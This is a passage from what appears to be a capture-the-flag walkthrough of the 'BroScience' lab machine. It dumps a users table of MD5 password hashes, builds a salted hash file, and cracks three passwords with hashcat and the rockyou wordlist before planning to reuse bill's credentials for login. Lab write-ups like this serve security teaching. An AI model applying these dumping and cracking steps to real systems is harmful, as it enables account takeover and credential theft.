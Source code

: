 
We see the users table, let's retrive it:

```sql
broscience=> SELECT * FROM users;
 id |   username    |             password             |            email             |         activation_code          | is_activated | is_admin |         date_created          
----+---------------+----------------------------------+------------------------------+----------------------------------+--------------+----------+-------------------------------
  1 | administrator | 15657792073e8a843d4f91fc403454e1 | administrator@broscience.htb | OjYUyL9R4NpM9LOFP0T4Q4NUQ9PNpLHf | t            | t        | 2019-03-07 02:02:22.226763-05
  2 | bill          | 13edad4932da9dbb57d9cd15b66ed104 | bill@broscience.htb          | WLHPyj7NDRx10BYHRJPPgnRAYlMPTkp4 | t            | f        | 2019-05-07 03:34:44.127644-04
  3 | michael       | bd3dad50e2d578ecba87d5fa15ca5f85 | michael@broscience.htb       | zgXkcmKip9J5MwJjt8SZt5datKVri9n3 | t            | f        | 2020-10-01 04:12:34.732872-04
  4 | john          | a7eed23a7be6fe0d765197b1027453fe | john@broscience.htb          | oGKsaSbjocXb3jwmnx5CmQLEjwZwESt6 | t            | f        | 2021-09-21 11:45:53.118482-04
  5 | dmytro        | 5d15340bded5b9395d5d14b9c21bc82b | dmytro@broscience.htb        | 43p9iHX6cWjr9YhaUNtWxEBNtpneNMYm | t            | f        | 2021-08-13 10:34:36.226763-04
  6 | oni           | 1d57185c6e3f19f28a1f8141403e2e20 | oni@oni.com                  | Rkz7gabG6AsKlKk51hyuOHiMMzNcJ87z | t            | f        | 2023-02-24 17:07:01.796904-05
 12 | kash          | 299e96f5d3ed7c7289bec23ddd180c72 | kashmir@kashmir.com          | Jn8MlDH3n7drZ8k8RT1MUCT9DKZFPs23 | t            | f        | 2023-02-24 17:37:30.332928-05
(7 rows)
```

We will try to crack those salted passwords (rememeber the salt attribute when the bd is loaded). Set the hashes into a formatted file for hashcat to digest:

- hash.txt

```
bill:13edad4932da9dbb57d9cd15b66ed104:NaCl
administrator:15657792073e8a843d4f91fc403454e1:NaCl
michael:bd3dad50e2d578ecba87d5fa15ca5f85:NaCl
john:a7eed23a7be6fe0d765197b1027453fe:NaCl
dmytro:5d15340bded5b9395d5d14b9c21bc82b:NaCl
```

Now run hashcat with the option for salted password (salt at the begining)

```bash
hashcat -m 20 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --user

bill:13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym
michael:bd3dad50e2d578ecba87d5fa15ca5f85:NaCl:2applesplus2apples
dmytro:5d15340bded5b9395d5d14b9c21bc82b:NaCl:Aaronthehottest
```

So we have the following creds. **bill:iluvhorsesandgym**. We saw bill usen in the machine when using LFI to get /etc/passwd, so let's try the credentials to access:


<p align="center">